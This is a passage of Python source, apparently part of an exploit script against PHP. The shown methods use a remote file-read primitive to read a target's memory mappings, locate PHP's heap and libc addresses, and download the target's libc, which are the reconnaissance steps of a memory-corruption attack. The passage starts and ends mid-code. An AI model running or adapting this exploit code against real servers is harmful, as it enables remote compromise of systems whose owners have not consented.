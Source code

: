 ~~~ python
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
        regions = self.get_regions()

        LIBC_FILE = "./libc.so.6"

        # PHP's heap

        self.info["heap"] = self.heap or self.find_main_heap(regions)
        print(f'HEAP address: {hex(self.info["heap"])}')

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        #self.download_file(libc.path, LIBC_FILE)

        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        print(f'LIBC address: {hex(libc.start)}')
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        data = self.remote.data_decode(self.get_file(remote_path))
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE-1) == 0
            and region.path in ("", "[anon:zend_alloc]")
        ]

        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using last one)")
        else:
~~~